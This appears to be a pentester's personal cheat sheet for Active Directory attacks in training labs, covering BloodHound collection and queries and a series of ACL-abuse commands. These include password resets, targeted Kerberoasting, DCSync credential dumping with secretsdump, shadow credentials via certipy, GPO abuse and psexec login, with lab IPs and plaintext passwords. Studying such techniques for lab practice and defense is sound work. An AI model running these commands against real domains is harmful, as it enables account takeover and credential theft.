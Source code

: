 ## Collect Data  
#### From target:  
```  
. .\SharpHound.ps1  
```  
```  
Invoke-BloodHound -CollectionMethod All  
```  
If nothing created and no error, may need to specify output:  
```  
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Temp  
```  
- make sure to create `C:\Temp` if not exist (can use `mkdir` in powershell)  
	- usually will give error if `C:\Temp` does not exist  
Can also use `-Verbose` to t/s:  
```  
Invoke-BloodHound -CollectionMethod All -Verbose  
```  
  
#### run remotely if LDAP port is open:  
```  
bloodhound-python -c All -dc FOREST.htb.local -gc FOREST.htb.local -ns 10.129.175.196 -d htb.local -u svc-alfresco -p 's3rvice'  
```  
or  
```  
bloodhound-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174  
```  
or use nxc:  
```  
nxc ldap administrator.htb -u Olivia -p ichliebedich --bloodhound --collection All --dns-tcp --dns-server 10.10.11.42  
```  
  
---  
#### CE  
```  
sudo docker-compose -f ~/Downloads/docker-compose.yml up -d  
```  
- go to http://localhost:8080/ui/login  
- admin:(more complex version of kali pw)  
To end the docker container:  
```  
sudo docker-compose -f ~/Downloads/docker-compose.yml down  
```  
- free up port 8080 for foxyproxy  
  
---  
#### Legacy  
 - start neo4j  
- `sudo neo4j console`  
- neo4j:(kali pw)  
- `bloodhound`  
- run command from another terminal tab  
- clear database  
- upload Data  
  
  
---  
#### Queries  
```  
MATCH (m:Computer) RETURN m  
```  
- see computers  
```  
MATCH (m:User) RETURN m  
```  
- see users  
- marked any users with creds as "owned"  
	- check owned users for OUTBOUND OBJECT CONTROL > First Degree Object Control  
		- Looking for GenericAll, GenericWrite, ForceChangePassword  
ex: olivia has GenericAll over Michael & Michael has ForceChangePassword over Benjamin = probably worth checking out)  
  
```  
MATCH (n:User {admincount:False}) MATCH (m) WHERE NOT m.name = n.name MATCH p=allShortestPaths((n)-[r:MemberOf|HasSession|AdminTo|AllExtendedRights|AddMember|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|CanRDP|ExecuteDCOM|AllowedToDelegate|ReadLAPSPassword|Contains|GpLink|AddAllowedToAct|AllowedToAct|SQLAdmin*1..]->(m)) RETURN p  
```  
- show privs all non-admin users have against all other nodes  
  
```  
MATCH (n:User {admincount:False}) MATCH (m:User) WHERE NOT m.name = n.name MATCH p=allShortestPaths((n)-[r:AllExtendedRights|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner*1..]->(m)) RETURN p  
```  
- show ACL abuse non-admin users has against other users  
  
```  
MATCH (n:User {admincount:False}) MATCH p=allShortestPaths((n)-[r:AllExtendedRights|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|AdminTo|CanRDP|ExecuteDCOM|ForceChangePassword*1..]->(m:Computer)) RETURN p  
```  
- show ACL abuse non-admin users have against computers  
  
```  
MATCH (n:User {admincount:False}) MATCH p=allShortestPaths((n)-[r:AddMember*1..]->(m:Group)) RETURN p  
```  
- show non-admin users that have rights to add members into groups  
  
```  
MATCH (u:User) WHERE ANY (x IN u.serviceprincipalnames WHERE toUpper(x) CONTAINS 'SQL')RETURN u  
```  
- find SPNs with specific keywords (swap `SQL` for anything)  
  
---  
#### If user (Olivia) has GenericAll permissions over another user (Michael)  
```  
net user Michael Password123  
```  
- Change benjamin's password if currently owned user has GenericAll over benjamin  
	- then login as that user and spray all open services with new creds  
- can also use bloodyAD command below (if no shell)  
  
---  
#### If user (Michael) has ForceChangePassword over another user (Benjamin)  
```  
bloodyAD -u "Michael" -p "Password123" -d "Administrator.htb" --host "10.10.11.42" set password "Benjamin" "12345678"  
```  
- using succesfully authenticated creds of michael to reset Benjamin's password  
  
OR with RPC  
```  
rpcclient -U 'rsmith' //10.10.146.118  
```  
- put in password, then:  
```  
setuserinfo2 ewalters 23 "d4nk!!!"  
```  
  
---  
#### If user (Emily) has GenericWrite permissions over another user (Ethan)  
- make sure IP is in `/etc/hosts` with all subdomains  
```  
sudo ntpdate administrator.htb  
```  
- syncs timezone for kerberos  
- may need to run multiple times if below command fails:  
```  
targetedKerberoast -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "Administrator.htb" --dc-ip 10.10.11.42  
```  
- running this command with Emily will display the hash for Ethan  
	- run john to crack the hash, then use pw below for secretsdump command  
  
---  
#### If user (Ethan) has DCsync over domain (dc.administrator.htb)  
```  
secretsdump.py "Administrator.htb/ethan:limpbizkit"@"dc.Administrator.htb"  
```  
  
---  
#### If user (ryan) has writeOwner permissions over another user (ca_svc), run these commands in fast sequence:  
```  
bloodyAD --host '10.10.11.51' -d 'escapetwo.htb' -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' 'ryan'  
```  
```  
dacledit.py  -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/"ryan":"WqSZAF6CysDQbGb3"  
```  
```  
sudo ntpdate sequel.htb  
```  
```  
certipy shadow auto -u 'ryan@sequel.htb' -p "WqSZAF6CysDQbGb3" -account 'ca_svc' -dc-ip '10.10.11.51'  
```  
- sets ryan as owner of ca_svc  
- once owner, 2nd command gives ryan full control of ca_svc  
- syncs time  
- should return hash for ca_svc  
  
---  
#### If User has GenericWrite over GPO Policy:  
![[Pasted image 20250404152856.png]]  
- Graphed path from Owned user to Administrator shows GenericWrite over GPO policy, implies privesc  
```powershell  
./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount enterprise-security --GPOName "SECURITY-POL-VN"  
```  
![[Pasted image 20250404153731.png]]  
```  
gpupdate /force  
```  
![[Pasted image 20250404153941.png]]  
- once updates, adds our user to administrator group  
```  
psexec.py enterprise-security:sand_0873959498@10.10.30.183  
```  
![[Pasted image 20250404154050.png]]  

